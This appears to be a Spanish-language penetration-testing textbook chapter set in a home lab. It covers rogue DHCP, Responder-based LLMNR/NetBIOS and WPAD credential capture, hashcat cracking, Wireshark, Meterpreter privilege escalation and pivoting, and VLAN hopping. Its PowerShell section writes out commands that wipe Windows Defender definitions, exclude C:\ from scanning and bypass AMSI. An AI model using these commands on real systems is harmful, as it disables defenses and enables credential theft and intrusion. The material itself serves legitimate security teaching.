El siguiente fragmento corresponde a una máquina con Windows 10 en nuestro laboratorio de penetración. Si observa con atención, puedes ver que las configuraciones de IP se encuentran dentro de los parámetros que habíamos configurado previamente en nuestro servidor DHCP no autorizado en Metasploit:



Además, la siguiente es la captura de Wireshark de los mensajes DHCP durante el lanzamiento del servidor DHCP no autorizado en la red:



Si observamos detenidamente la captura de pantalla, podemos ver el paquete **DHCP Discover** enviado desde la máquina con Windows 10 en busca de un servidor DHCP en la red. Finalmente, nuestro servidor DHCP no autorizado pudo responder al cliente con un paquete **DHCP Offer .**

A continuación se muestra el contenido del paquete **de oferta DHCP** que se envió a la víctima, la máquina con Windows 10:


Podemos ver la dirección IP asignable por el cliente ( 10.10.10.101), la puerta de enlace predeterminada ( 10.10.10.16), la dirección MAC del cliente, el tipo de mensaje DHCP ( Offer), la dirección IP del servidor DHCP ( 10.10.10.16), la máscara de subred y las configuraciones del servidor DNS.

**La solicitud DHCP** se envía desde el cliente al servidor DHCP (rogue) para confirmar las configuraciones IP recibidas del mensaje **de oferta DHCP** . Por último, el servidor DHCP (rogue) envía un paquete **DHCP ACK** para confirmar que el cliente va a utilizar la información proporcionada.


Ahora tienes las habilidades para lanzar un ataque DHCP en una red de destino mediante Metasploit. En la siguiente sección, cubriremos **la resolución de nombres de multidifusión local de enlace** (**LLMNR**) y los ataques NetBIOS .


## Explotación de LLMNR y NetBIOS-NS

En muchas organizaciones, como evaluador de penetración, encontrará muchas máquinas de Windows Server que cumplen la función de **controlador de dominio** (**DC**). Un DC es simplemente una máquina de servidor Windows que ejecuta Servicios de dominio de Active Directory y se utiliza para administrar todos los dispositivos dentro de la organización. Los profesionales de TI utilizan **Active Directory** (**AD**) para administrar componentes como computadoras y usuarios en una red. Además, los profesionales de TI pueden usar **objetos de política de grupo** (**GPO**) en AD para asignar privilegios a dispositivos finales y usuarios, creando así restricciones para evitar actividades y acciones no autorizadas en la red.

En un entorno Windows, están presentes tanto los protocolos **NetBIOS-NS** como **LLMNR .** **NetBIOS-NS** significa **servicio de nombres de sistema básico de entrada/salida de red** . NetBIOS-NS se utiliza habitualmente para resolver nombres de host en redes locales. NetBIOS existe desde hace bastante tiempo y está obsoleto. Sin embargo, todavía se utiliza para comunicarse con sistemas antiguos y heredados.

En la actualidad, el protocolo LLMNR se utiliza habitualmente en redes en las que no hay un **servidor de nombres de dominio** (**DNS**) presente o disponible. De manera similar a NetBIOS-NS, LLMNR también se utiliza para resolver nombres de host en una red.

Con Kali Linux, podemos aprovechar las vulnerabilidades de seguridad de estos protocolos. En este escenario, intentaremos realizar un ataque MITM en nuestra red de laboratorio. Este diseño contiene lo siguiente:

- Windows Server 2016 con servicios de dominio de Active Directory
- Un nuevo dominio llamadopentestlab.local
- Máquina con Windows 10 que actúa como cliente en el dominio
- Kali Linux como la máquina atacante que usa Responder para realizar envenenamiento LLMNR

En este ejercicio, utilizaremos la siguiente topología para realizar nuestro ataque:


Asegúrate de haber instalado Windows Server 2016 en su laboratorio. Si aún no lo ha hecho, lea el Capítulo 3, *Configuración de Kali - Parte 2,* que contiene las pautas para instalar Windows como una máquina virtual.

Para configurar Active Directory en Windows Server 2016, utiliza la siguiente URL: https://blogs.technet.microsoft.com/canitpro/2017/02/22/step-by-step-setting-up-active-directory-in-windows-server-2016/ .

Para unirse al pentestlab.localdominio mediante una máquina con Windows 10, consulte la siguiente URL para obtener instrucciones: https://helpdeskgeek.com/how-to/windows-join-domain/ . Además, en su máquina con Windows 10, deberá configurar el servidor DNS como la dirección IP de la máquina con Windows Server 2016 antes de unirse al dominio.

Una vez que el laboratorio esté listo, vayamos a nuestra máquina Kali Linux. Usaremos Responder para realizar nuestro ataque MITM para capturar varios mensajes de protocolo.

Para comenzar a explotar LLMNR y NetBIOS, observe las siguientes instrucciones:

1. Usando la locateutilidad, descubriremos la ubicación de Responder.py, como se muestra en la siguiente captura de pantalla:



2. Cambie su directorio de trabajo actual a /usr/share/responder. A continuación, habilite Responder para que escuche el tráfico en la red, como se muestra en la siguiente captura de pantalla:



Utilizaremos los siguientes parámetros en Responder:

- - **-I**, para especificar la interfaz de escucha
  - -r, para habilitar respuestas a consultas NetBIOS en la red
  - -d, para habilitar las respuestas NetBIOS para consultas de sufijo de dominio en la red
  - -w, para habilitar el servidor proxy malicioso WPAD

3. De forma predeterminada, Responder realiza ataques de envenenamiento a las víctimas. Siempre que el cliente intenta acceder a un recurso de la red, como un recurso compartido de archivos, las credenciales del usuario se envían por cable, como se muestra en la siguiente captura de pantalla:



Podemos identificar lo siguiente:

- - La dirección IP del cliente
  - El nombre de dominio
  - El nombre de usuario de la víctima (bob)
  - La contraseña de la víctima en forma de hash NTLMv2
  - El algoritmo hash
  - El hecho de que el usuario estaba intentando acceder a un recurso compartido de archivos **del Bloque de mensajes del servidor** (**SMB**) en la red

Copia el hash y guárdalo en un archivo de texto en tu escritorio. Yo he guardado mi hash en mi escritorio en un archivo llamado Hash.txt.

De forma predeterminada, Responder guarda los hashes en el directorio `/usr/share/responder/logs` utilizando la dirección IP de la víctima como parte de la convención de nombres para el archivo de texto.

1. A continuación, podemos utilizar **Hashcat** para realizar un descifrado de contraseñas sin conexión del hash NTLMv2 para recuperar la contraseña de texto sin formato del usuario. Utiliza la siguiente sintaxis para realizar el descifrado de contraseñas con Hashcat:

```markup
hashcat -m 5600 Hash.txt <wordlist file> --force
```

Recuerda que descifrar contraseñas puede ser una tarea que lleve mucho tiempo. Además, asegúrate de que el archivo de directorio o lista de palabras contenga una gran cantidad de entradas para aumentar las posibilidades de éxito.

Utiliza el -mparámetro para especificar un modo en Hashcat. Un modo se utiliza para indicar a Hashcat el tipo de hash. El modo 5600se utiliza para **el protocolo de red: NetNTLMv2** . Además, para descubrir otros modos, utiliza el hashcat --helpcomando.

Para descargar la lista de palabras SecLists, consulte la siguiente URL: https://github.com/danielmiessler/SecLists .

Además, puedes utilizar **John the Ripper** para descifrar contraseñas en los hashes que hayas capturado utilizando Responder.

Ahora que ha completado esta sección, ya puedes aprovechar las debilidades de LLMNR. En la siguiente sección, demostraremos cómo aprovechar las vulnerabilidades de WPAD.


## Ataques al protocolo WPAD

Dentro de una red corporativa, los administradores de sistemas generalmente permiten a los empleados acceder a Internet a través de un servidor proxy. El servidor proxy generalmente mejora el rendimiento y la seguridad, y monitorea el tráfico web que entra y sale de la red corporativa. WPAD es una técnica que se utiliza en las máquinas cliente para descubrir la URL de un archivo de configuración a través de métodos de descubrimiento de DHCP. Una vez que una máquina cliente descubre un archivo, este se descarga en la máquina cliente y se ejecuta. El script determinará el proxy para el cliente.


En este ejercicio, vamos a utilizar Responder en Kali Linux para capturar las credenciales de usuario de una víctima. Antes de comenzar, se utilizará la siguiente topología en este ejercicio:



Siguiendo los siguientes pasos podremos explotar fácilmente WPAD en un entorno Windows:

Las configuraciones del laboratorio son las mismas que las de la sección anterior.

1. Asegúrate de que la máquina cliente de Windows 10 se haya unido al dominio alojado por Windows Server.
2. En su máquina Kali Linux, cambie su directorio de trabajo a la ubicación de Responder usando el cd /usr/share/respondercomando.

1. Ejecuta el python Responder.py -I eth0 -wFbcomando:



Los conmutadores utilizados en el fragmento proporcionan las siguientes funciones:

- - ``-I``: Especifica la interfaz a utilizar
  - ``-w``:Habilita el servidor proxy malicioso WPAD
  - ``-F``:Fuerza la autenticación NTLM al wpad.datrecuperar archivos
  - ``-b``:Se utiliza para devolver la autenticación HTTP básica

1. Cuando la víctima intenta navegar o acceder a cualquier recurso local en la red, aparecerá la siguiente ventana de inicio de sesión:



1. Una vez que la víctima ingresa sus credenciales de usuario, Responder las mostrará en texto sin formato, como se muestra en la siguiente captura de pantalla.

Tenga en cuenta que la cuenta de usuario utilizada en este ejemplo es una que yo mismo configuré en mi dominio de laboratorio personal para fines educativos.

Solo como recordatorio, todos los registros generados y los datos capturados por Responder se almacenan en el /usr/share/responder/logs directorio. Ahora, Puedes capturar las credenciales de usuario de los empleados mediante el uso de WPAD en una red corporativa:



En la siguiente sección, aprenderemos sobre Wireshark.


## Cableado

Wireshark es uno de los mejores analizadores y rastreadores de protocolos de red de la industria. Sus capacidades son amplias y brindan resultados y análisis detallados sobre los paquetes de red. Para cada conversación o transacción que ocurre en una red, Wireshark puede brindar un desglose de la composición de cada paquete.

Comenzaremos haciendo una descripción general de las funciones de Wireshark.

## Descripción básica de Wireshark y cómo usarlo en ataques MITM

Wireshark ya está preinstalado en su sistema operativo Kali Linux. Para comenzar, realice los siguientes pasos:

1. Ve a Aplicaciones | 09 – Sniffing y suplantación de identidad | wireshark .

2. Una vez abierto Wireshark, se te presentará la interfaz de usuario como se muestra en la siguiente captura de pantalla:



1. Wireshark proporcionará una lista de todas las interfaces de red y mostrará un gráfico de resumen en vivo del tráfico de red en vivo que pasa por cada adaptador de red. Al hacer doble clic en una interfaz, se iniciará inmediatamente una captura en vivo en la tarjeta de interfaz de red.

Si habilitas una captura en tu sistema local, solo se mostrará el tráfico que fluye entre tu máquina atacante y el resto de la red. Esto significa que Wireshark solo podrá interceptar/escuchar el tráfico de red que ingresa y sale de tu computadora. Eso no es muy práctico, ¿verdad?

Veamos cómo crear un espejo de todo el tráfico de red desde un conmutador de red y enviarlo a nuestra máquina atacante.

## Configurar un puerto SPAN

SPAN permite que un conmutador cree una copia del tráfico en uno o más puertos y envíe la misma copia por otro puerto. Esta configuración se realiza normalmente cuando un administrador de seguridad de red desea conectar un analizador de protocolos (sniffer) o un **sistema de detección de intrusiones** (**IDS**) a la red para supervisar cualquier amenaza a la seguridad:



En el diagrama, la máquina atacante (que ejecuta Wireshark) está conectada a la interfaz Fast Ethernet 0/1 en un **conmutador** **Cisco IOS 2960**, mientras que los demás dispositivos están conectados al mismo segmento de red. Supongamos que queremos obtener una copia de todo el tráfico que fluye entre los puertos Fast Ethernet 0/2, Fast Ethernet 0/3 y Fast Ethernet 0/4.

Para realizar esta tarea de configuración de un puerto SPAN en un conmutador Cisco IOS, utiliza las siguientes pautas:

1. Podemos usar el siguiente comando para enviar la salida a Fast Ethernet 0/1:

```markup
Switch (config)# monitor session 1 source interface fastethernet 0/2
Switch (config)# monitor session 1 source interface fastethernet 0/3
Switch (config)# monitor session 1 source interface fastethernet 0/4
Switch (config)# monitor session 1 destination interface fastethernet 0/1
```

1. Para verificar las configuraciones, utiliza el show monitorcomando en el conmutador:



El resultado nos muestra que los puertos de origen (usados para monitorear el tráfico de red) y los puertos de destino están configurados correctamente. Una vez que hayamos habilitado Wireshark en nuestra máquina atacante para comenzar a capturar en nuestra interfaz local, eth0todos los paquetes de red se mostrarán en vivo en la interfaz de usuario de Wireshark.

Una vez que haya completado esta sección, podrá configurar un puerto SPAN en un conmutador Cisco IOS. En la siguiente sección, analizaremos en profundidad la configuración de Wireshark para rastrear el tráfico de red.

## Configuración de una interfaz de monitorización (sniffer) en Wireshark

Para configurar una interfaz de monitoreo (sniffer) en Wireshark, siga las siguientes instrucciones:

1. Haz clic en Capturar | Opciones para mostrar todas las interfaces de red en la máquina local:



1. Seleccione la interfaz de red adecuada, seleccione Habilitar modo promiscuo en todas las interfaces y luego haz clic en Iniciar para comenzar a capturar paquetes de red:



1. El panel **Lista de paquetes** comenzará a llenarse con paquetes de red a medida que se realicen transacciones en la red. Al hacer clic en un paquete, se mostrarán todos sus detalles y campos en el siguiente panel **Detalles del paquete** :



A medida que se van completando los paquetes en la interfaz, la experiencia puede resultar un poco abrumadora. En las siguientes subsecciones, adoptaremos un enfoque práctico para realizar análisis HTTP y otros tipos de análisis para determinar información importante.

Una vez que haya completado esta sección, podrá utilizar Wireshark como rastreador de tráfico en una red. En la siguiente sección, demostraremos cómo realizar un análisis de tráfico para recopilar información confidencial mediante Wireshark.

## Analizando capturas de paquetes de Wireshark para encontrar los productos

En el siguiente ejercicio, utilizaremos la captura de **The Honeynet Project** (www.honeynet.org) para ayudarnos a comprender el análisis de paquetes. Para realizar el análisis de paquetes de Wireshark, observa los siguientes pasos:

1. Vaya a https://www.honeynet.org/node/1220 y descargue el conference.pcapngarchivo. Además, la siguiente URL, https://honeynet.org/sites/default/files/conference.pcapng.gz, es un enlace de descarga directa al archivo.
2. Una vez descargado, abra el conference.pcapngarchivo usando Wireshark; debería tener la siguiente vista:



3. Una característica útil de Wireshark es la resolución automática de direcciones IP a nombres de host mediante DNS, la resolución de direcciones MAC a nombres de proveedores y la resolución de números de puerto a servicios y protocolos. Para habilitar esta función, ve a Editar | Preferencias | Resolución de nombres. Asegúrate de que las siguientes opciones estén marcadas:



4. Haz clic en Aceptar para confirmar y guardar la configuración. De nuevo en la interfaz de usuario principal, notarás que todas las direcciones IP públicas ahora están resueltas a tus nombres de host públicos:



5. Lo que hace que Wireshark sea una herramienta tan poderosa son sus filtros de visualización y captura. Para ver todo el tráfico que se origina desde una dirección IP de origen, usa el filtro `ip.src == <ip address>`:


Para mostrar todo el tráfico de una dirección de destino específica, podemos utilizar el filtro `ip.dst == <ip address>`. Sin embargo, podemos combinar filtros para ver el tráfico de una fuente específica a un destino utilizando el filtro `(ip.src == <ip address>) && (ip.dst == <ip address>)`. En la siguiente captura de pantalla, estamos utilizando un filtro para ver todo el tráfico que se origina al dirigirse 172.16.254.128 al servidor DNS de Google 8.8.8.8:



Al combinar filtros, deberás utilizar operaciones lógicas para realizar la tarea. A continuación, se incluye una breve lista de distintos operadores para combinar filtros en Wireshark:



El Geoperador se utiliza para indicar **mayor o igual a**, mientras que el Leoperador se utiliza para indicar **menor o igual a** .

Para obtener más información sobre los filtros de visualización de Wireshark, visite https://wiki.wireshark.org/DisplayFilters .

Memorizar los filtros de visualización puede ser un gran desafío para cualquiera. Sin embargo, Wireshark ha simplificado la creación de filtros personalizados con bastante facilidad mediante las opciones de clic derecho en la interfaz de usuario. Ahora, intentemos algunos ejercicios para ayudarte a familiarizarte más con los filtros de visualización .

Para comenzar a crear filtros de visualización en Wireshark, realiza los siguientes pasos:

1. Primero, haz clic derecho en la dirección IP de origen en el paquete 1 y luego haz clic en **Aplicar como filtro** | **Seleccionado** para crear y aplicar el filtro inmediatamente:



Ahora, tenemos un filtro que muestra todo el tráfico que se origina en la 172.16.254.128dirección.

2. A continuación, en la columna Destino, haz clic derecho en 8.8.8.8 o google-public-dns-a.google.com, haz clic en **Aplicar como filtro** y luego selecciona la opción **...y Seleccionado** :



Esto creará el efecto de mostrar únicamente el tráfico que se origina 172.16.254.128en el servidor DNS de Google.

La opción **Aplicar como filtro** aplicará inmediatamente el filtro de visualización en Wireshark. Sin embargo, **Preparar como filtro** ofrece las mismas opciones, pero no aplica inmediatamente el filtro de visualización. En cambio, le permite continuar creando la sintaxis del filtro y aplicarla después.

3. Para ver todas las conversaciones entre dispositivos en la red, haz clic en **Estadísticas** | **Conversaciones** :



Se abrirá la ventana Conversaciones, que proporciona varias pestañas con diversos detalles, como sesiones Ethernet, IPv4, IPv6, TCP y UDP entre dispositivos, como se muestra en la siguiente captura de pantalla:



Podrás determinar qué dispositivos estuvieron comunicándose y transfiriendo paquetes durante un tiempo determinado.

4. Wireshark nos permite visualizar fácilmente todos los archivos que se descargan y cargan a través de la red. Para realizar esta tarea, haz clic en **Archivo** | **Exportar objetos** | **HTTP**. Se abrirá la ventana de exportación HTTP, que muestra los detalles de Paquete, Nombre de host (origen), Tipo de contenido, Tamaño y Nombre de archivo . Para exportar un archivo a su escritorio, seleccione un paquete en la interfaz y haz clic en **Guardar** :



Para exportar todos los archivos de una captura de Wireshark, utiliza la opción **Guardar todo** .

5. Para volver a ensamblar y ver todos los mensajes de una sola conversación entre dos dispositivos, haz clic derecho en un paquete y seleccione **Seguir** | **Flujo TCP** :



Wireshark reunirá todos los paquetes de este flujo, los volverá a ensamblar y le presentará el diálogo de mensajes intercambiados entre los dos dispositivos, como se muestra en la siguiente captura de pantalla:



La siguiente es una captura de pantalla de una conversación Telnet entre un cliente y un servidor Linux. Telnet es un protocolo **no seguro** y toda la comunicación entre el cliente Telnet y el servidor Telnet se envía a través de la red en texto sin formato. La siguiente captura de pantalla muestra cómo Wireshark vuelve a ensamblar todos los paquetes para una sola conversación:


Podemos ver las credenciales de usuario utilizadas para iniciar sesión en el servidor, el banner **del mensaje del día** del servidor (**MOTD**) y todas las demás transacciones.

Una vez que hayas completado esta sección, ya poseerás las habilidades necesarias para crear filtros de visualización personalizados en Wireshark. En la siguiente sección, aprenderemos sobre la escalada de privilegios.


## Aumento de privilegios

Obtener las credenciales de un usuario para acceder a un sistema es solo una parte de la fase de obtención de acceso en las pruebas de penetración. Sin embargo, recuerde que no todas las cuentas de usuario tienen privilegios **de administrador** o **raíz** . Por lo tanto, acceder de forma remota a un sistema con una cuenta de usuario estándar o que no sea raíz le impedirá ejecutar ciertas aplicaciones y realizar tareas administrativas en el sistema de la víctima.

La escalada de privilegios se puede ejecutar mediante una variedad de técnicas, incluidas las siguientes:

- Obtención de información del archivo SAM en Windows
- Recuperando datos del passwdarchivo en Linux
- Explotación de permisos débiles en procesos en ejecución en un sistema
- Obtención de información confidencial que se encuentra en archivos compartidos de red almacenados
- Capturar el valor hash de la contraseña de un usuario mientras se comunica con otro dispositivo en la red.

La información que se encuentra en los archivos `SAM` y `passwd` contiene los nombres de usuario y los valores hash de las contraseñas de los usuarios. Mediante técnicas de descifrado de contraseñas, podrá recuperar las contraseñas en texto plano de las cuentas de usuario, que luego se pueden utilizar para obtener acceso a los dispositivos. Obtener una cuenta de administrador o raíz le proporcionará acceso sin restricciones al sistema.

Tener acceso a un sistema con una cuenta de usuario estándar significa que podemos ejecutar un exploit de escalada de privilegios local para obtener acceso de administrador o de nivel raíz.

Exploit-DB ( https://www.exploit-db.com/ ) proporciona un gran repositorio de exploits para muchos propósitos; use la función de búsqueda en el sitio web de Exploit-DB para descubrir exploits de escalada de privilegios:



En los capítulos anteriores, demostramos técnicas que utilizan Metasploit para explotar con éxito un objetivo y obtener acceso. El componente **Meterpreter**getsystem proporciona el comando que intenta aumentar los privilegios en el sistema objetivo, como se muestra en la siguiente captura de pantalla. Observe con atención: verá que podemos adquirir nt authority\systemprivilegios en la víctima. Este es el nivel de acceso más alto:



Dentro de nuestro shell de Meterpreter, podemos verificar nuestro nivel de acceso usando el shellcomando para obtener el símbolo del sistema de Windows de la máquina de nuestra víctima. Una vez que se obtiene el shell de Windows, ahora podemos ejecutar comandos basados en Windows, como whoamiverificar nuestro nivel de privilegio en la máquina de la víctima.

Asegúrate siempre de realizar una investigación exhaustiva sobre la vulnerabilidad de un objetivo consultando Exploit-DB ( www.exploit-db.com ) y la base de datos Common Vulnerabilities and Exposures ( https://cve.mitre.org/ ) para encontrar vulnerabilidades que le ayuden a obtener acceso y aumentar los privilegios de usuario. En la siguiente sección, analizaremos en profundidad el movimiento lateral.


## Tácticas de movimiento lateral

El movimiento lateral permite a un atacante dirigir todos los ataques a través de una máquina comprometida hacia otras subredes dentro de una organización. Imaginemos que está realizando una prueba de penetración en la red de un cliente. Su organización contiene múltiples subredes, pero no le han informado sobre la cantidad de redes que realmente existen. Entonces, comienza a escanear la red para buscar hosts activos y vulnerabilidades, y para descubrir la topología.

Has descubierto y mapeado toda la 10.10.10.0/24red y comienzas a explotar tantas máquinas como sea posible. Sin embargo, durante la fase de explotación, notas algo interesante en una máquina víctima en particular y, en el shell de Meterpreter, ejecutas el ipconfigcomando para ver las configuraciones de IP en la máquina de la víctima:



En nuestro caso, Interface 11está conectado a la misma subred que la máquina del atacante y Interface 18se encuentra en otra red. En algunas situaciones, si intenta acceder a otra subred, es posible que se configure un enrutador o un firewall para restringir el acceso entre diferentes subredes por motivos de seguridad.

Para superar los dispositivos de seguridad y los controles de acceso a la red, se debe utilizar la técnica de **movimiento lateral** (pivote). Como atacante, podemos intentar comprometer una máquina que esté conectada y sea de confianza en otras subredes dentro de la organización. Una vez que hayamos configurado el pivote o el movimiento lateral, todos nuestros ataques se enviarán a través de la máquina víctima y se reenviarán a la nueva red de destino, como se muestra en la siguiente captura de pantalla:



Para realizar un movimiento lateral utilizando Metasploit, siga las siguientes instrucciones:

1. Al utilizar el arpcomando en Meterpreter se mostrará la caché ARP. En la siguiente captura de pantalla, hay dos redes diferentes conectadas a nuestra víctima:



2. Para habilitar el movimiento lateral, ejecute el run post/multi/manage/autoroutecomando dentro de Meterpreter, como se muestra en la siguiente captura de pantalla:



Esto agregará una ruta a las redes adicionales y permitirá que su máquina atacante envíe todos sus ataques a la máquina víctima ( 10.10.10.23) y los reenvíe a la 10.10.11.0/24red.

3. Para probar el movimiento lateral (pivote), podemos intentar realizar un escaneo NetBIOS en la 10.10.11.0/24red desde nuestra máquina atacante:



Los siguientes resultados demuestran que nuestra máquina atacante puede realizar escaneos y ataques en otra subred:



4. Además, realizar un escaneo del puerto TCP en un objetivo ha demostrado ser fructífero, ya que todos los ataques se envían a través de la 10.10.10.23máquina:



Luego podemos apuntar a la nueva subred.

Durante una prueba de penetración, es posible que se nos asigne la tarea de descubrir redes ocultas o remotas. Para cada sistema al que haya obtenido acceso, asegúrate de verificar la caché ARP en la máquina de la víctima e intente realizar un movimiento lateral en toda la red.

En la siguiente sección, veremos cómo usar PowerShell para deshabilitar Windows Defender.


## Técnicas comerciales de PowerShell

PowerShell es un lenguaje de programación de línea de comandos que se basa en .NET. Un profesional de TI puede usar PowerShell para automatizar muchas tareas y administrar mejor sus sistemas operativos. Windows, Linux y macOS son compatibles con PowerShell.

En la siguiente sección, aprenderemos a eliminar las definiciones de virus de Windows Defender mediante PowerShell.

## Cómo eliminar las definiciones de virus de Windows Defender

En todas las versiones modernas de Microsoft Windows, Microsoft ha incluido **Windows Defender** como protección antimalware nativa. Hay muchos usuarios domésticos y organizaciones que utilizan Windows Defender como su solución antimalware preferida en los dispositivos finales. Como evaluador de penetración, es muy importante no ser detectado durante una prueba de penetración, ya que sus acciones están diseñadas para simular un ataque del mundo real.

El siguiente script de PowerShell eliminará todas las definiciones de virus de Windows Defender:

```markup
"c:\program files\windows defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisablelOAVProtection $true
```

La siguiente captura de pantalla muestra el resultado del script anterior que se ejecutó correctamente en una máquina con Windows 10:



Además, eche un vistazo a la información de la versión de Windows Defender; podemos ver que se han eliminado todas las definiciones:



Puedes haber casos en los que Windows Defender se vuelva a habilitar en una máquina. El siguiente script agregará la C:\ruta a la lista de exclusión de Windows Defender:

```markup
powershell
Add-MpPreference -ExclusionPath "c:\"
```

La siguiente captura de pantalla demuestra cómo ejecutar el script con éxito :



Esta técnica nos permitirá ejecutar código malicioso en la C:unidad del equipo Windows de la víctima.

Ahora que ha aprendido cómo eliminar las definiciones de virus de Windows Defender, cubriremos cómo deshabilitar **la Interfaz de escaneo antimalware** de Windows (**AMSI**).

## Desactivación de la interfaz de análisis antimalware de Windows

Microsoft ha incluido su AMSI en versiones recientes de Windows para evitar que se ejecute cualquier tipo de código malicioso en un sistema local. Si estás poniendo en peligro un sistema operativo Windows, ejecutar scripts de PowerShell puede ser muy útil, pero AMSI evitará cualquier acción maliciosa. Para deshabilitar AMSI, ejecuta el siguiente script de PowerShell:

```markup
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsilnitFailed','NonPublic,Static').SetValue($null,$true)"
```

La siguiente captura de pantalla muestra la ejecución exitosa del script en un sistema operativo Windows 10:



En este punto, puedes ejecutar casi cualquier código malicioso en la máquina Windows de tu víctima.

En esta sección se asume que ya ha puesto en riesgo un sistema operativo Windows en una red corporativa. En la siguiente sección, analizaremos brevemente una vulnerabilidad común que muchos administradores de red en la industria de TI pasan por alto: saltos de VLAN .


## Lanzar un ataque de salto de VLAN

Las organizaciones suelen implementar **redes de área local virtuales** (**VLAN**) para segmentar y mejorar el rendimiento de su infraestructura de red, al tiempo que mejoran la seguridad. Al configurar las VLAN, hay dos puertos principales que nos interesan: el puerto de acceso y el puerto troncal.

Los puertos de acceso son aquellos que se configuran para conectar el dispositivo final al conmutador. Estos puertos solo permiten una VLAN de datos y una VLAN de voz adicional. Al configurar un puerto de acceso, el ID de VLAN generalmente se configura de forma estática como un puerto de acceso en un conmutador.

Para que varias VLAN se comuniquen a través de una red, es necesario configurar puertos troncales entre los conmutadores. Los puertos troncales permiten que varias VLAN transmitan tráfico simultáneamente. Los puertos troncales se configuran entre conmutadores y entre un conmutador y un enrutador para implementar el enrutamiento entre VLAN, lo que permite que una VLAN se comunique con otra.

Hay muchas ocasiones en las que los profesionales de TI no configuran correctamente los dispositivos de red. Un evaluador de penetración puede aprovechar esta vulnerabilidad e intentar realizar un ataque de salto de VLAN. Una vez que lo logre, la máquina atacante podrá acceder a todas las VLAN disponibles y realizar ataques MITM. El siguiente diagrama muestra a un atacante que ha habilitado con éxito un enlace troncal no autorizado:




**Yersinia** en Kali Linux permite a un atacante realizar varios tipos de ataques de capa 2 en una red para aprovechar las configuraciones y debilidades de seguridad. Para abrir yersinia, ejecute el siguiente comando:

```markup
yersinia -G
```

Aparecerá la interfaz gráfica de usuario en su escritorio. Para lanzar un ataque de salto de VLAN, ejecute los siguientes pasos:

1. Haz clic en el botón **Iniciar ataque** .
2. Aparecerá una nueva ventana. Haz clic en la pestaña **DTP** y selecciona el botón de **opción para habilitar trunking, como se muestra en la siguiente captura de pantalla:**



1. Cuando esté listo, haz clic en Aceptar para comenzar a realizar un ataque **de salto de VLAN** en la red.

Una vez completada esta sección, ahora puedes realizar ataques de salto de VLAN utilizando Kali Linux.


## Resumen

Durante el transcurso de este capítulo, aprendió sobre escaneo de red interna, ataques MITM, análisis de paquetes, escalada de privilegios, movimiento lateral mediante Meterpreter, desactivación de Windows Defender mediante PowerShell y saltos de VLAN.

Ahora tienes las habilidades necesarias para realizar análisis de red internos con herramientas como AutoScan-Network, Zenmap y Netdiscover. Además, ahora puedes capturar paquetes y realizar análisis de paquetes con Wireshark para ver el tráfico de las víctimas a medida que fluye a través de la red de destino. Además, sabe cómo ejecutar con éxito ataques posteriores a la conexión, como el movimiento lateral (pivote), así como también cómo deshabilitar la protección antivirus de Windows Defender en el sistema de una víctima con PowerShell.

Espero que este capítulo le resulte útil e informativo en sus estudios y su carrera. En el Capítulo 12, *Pruebas de penetración de red: detección y seguridad*, aprenderá a detectar ataques de envenenamiento de ARP y actividades sospechosas, y analizará algunas técnicas de solución.


## Preguntas

Las siguientes son algunas preguntas basadas en los temas que hemos cubierto en este capítulo:

1. ¿Qué herramienta se puede utilizar para acceder a varias VLAN en un conmutador mal configurado?
2. ¿Qué comando dentro de Meterpreter se puede usar para escalar privilegios?
3. ¿Cuál es el propósito de ARP?
4. Dado que Telnet es un protocolo inseguro, ¿qué otro protocolo de acceso remoto debería utilizarse para evitar que un atacante vea los datos durante la transmisión?
5. En un sistema operativo Windows, ¿cómo puedes determinar tus privilegios de usuario actuales y el nombre de la cuenta de usuario?


## Otras lecturas

- **Técnicas de movimiento lateral** : https://attack.mitre.org/tactics/TA0008/
- **Documentos de Wireshark** : https://www.wireshark.org/docs/


# Pruebas de penetración en la red: detección y seguridad

Comprender el concepto de seguridad de red como evaluador de penetración es una ventaja en sí misma. En este capítulo, nos centraremos en el aspecto operativo de la ciberseguridad. Comprender cómo detectar amenazas y patrones de tráfico de red sospechosos es importante, ya que ayudará al equipo de seguridad de TI a detectar y detener ataques en toda la red. Aprenderá sobre varias **tácticas del equipo azul** que se utilizan para detectar y prevenir ciberataques dentro de la infraestructura de red de una organización. Después de enviar un informe de prueba de penetración al cliente, este puede solicitar servicios adicionales que le permitan detectar y prevenir amenazas cibernéticas en su organización. Este capítulo lo ayudará a comenzar con las técnicas de prevención y monitoreo de tráfico sospechoso.

En este capítulo cubriremos los siguientes temas:

- Uso de Wireshark para comprender ARP
- Detección de ataques de envenenamiento de ARP
- Detección de actividad sospechosa
- Técnicas de remediación de tipo **Man-in-the-Middle** (**MITM )**
- Técnicas de remediación del olfateo


## Requerimientos técnicos

Los siguientes son los requisitos técnicos para este capítulo:

- Kali Linux: https://www.kali.org/
- Archivo Telnet de Wireshark: https://wiki.wireshark.org/SampleCaptures#Telnet


## Uso de Wireshark para comprender ARP

El **protocolo de resolución de direcciones** (**ARP**) fue diseñado para convertir direcciones IP en direcciones MAC. Los profesionales de TI a veces subestiman la importancia de ARP. Toda comunicación entre dispositivos en una **red de área local** (**LAN**) o dentro de la misma subred utiliza la dirección **de control de acceso al medio** (**MAC**). Esto significa que los dispositivos no utilizan una dirección IP a menos que la comunicación vaya más allá de su subred local, como a otra red (o subred).

Utilicemos una analogía sencilla: una PC que desea enviar un documento a la impresora de red para imprimirlo. Si estos dos dispositivos están en la misma subred, la PC encapsulará su mensaje (documento) dentro de una trama y lo enviará al conmutador de red. El conmutador de red leerá la dirección MAC de destino de la trama y la reenviará a la impresora de red para su procesamiento.

Veamos la siguiente captura de pantalla. Se trata de una trama capturada por Wireshark. Si analizamos el protocolo de capa 2, es decir, ARP, podemos determinar varias cosas:



Este marco es un mensaje **de Protocolo de resolución de direcciones (solicitud)** . El remitente de este marco tiene una dirección MAC de 00:0c:29:7e:37:58con una dirección IP de 10.10.10.16. La 10.10.10.16máquina está enviando una transmisión en la red local. Esto se puede determinar observando que la dirección MAC de destino en el marco es ff:ff:ff:ff:ff:ff; sin embargo, la **dirección MAC de destino** está vacía, mientras que la **dirección IP de destino** es 10.10.10.23. Para decirlo de forma sencilla, la 10.10.10.16máquina está preguntando a todos en la red local quién 10.10.10.23es y cuál es la dirección MAC del dispositivo.

La siguiente captura de pantalla muestra el marco **del Protocolo de resolución de direcciones (**10.10.10.16 respuesta) de . Tómese un momento para observar todos los campos dentro del marco:



